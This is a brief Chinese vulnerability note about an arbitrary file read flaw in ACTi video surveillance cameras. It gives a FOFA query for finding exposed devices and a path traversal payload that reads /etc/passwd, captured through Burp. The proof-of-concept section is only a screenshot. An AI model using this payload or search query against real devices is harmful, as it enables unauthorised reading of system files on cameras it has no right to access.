 # ACTI-视频监控-任意文件读取漏洞

## 漏洞描述

ACTI 视频监控 存在任意文件读取漏洞

## 漏洞影响

> [!NOTE]
>
> ACTI摄像头

## FOFA

> [!NOTE]
>
> app="ACTi-视频监控"

## 漏洞复现

登录页面如下

![](ACTI-视频监控-任意文件读取漏洞.assets/16273635869686542.jpg)

使用Burp抓包

```
/images/../../../../../../../../etc/passwd
```

![](ACTI-视频监控-任意文件读取漏洞.assets/16273635872758012.jpg)

## Goby & POC

![](ACTI-视频监控-任意文件读取漏洞.assets/1627363587703616.jpg)
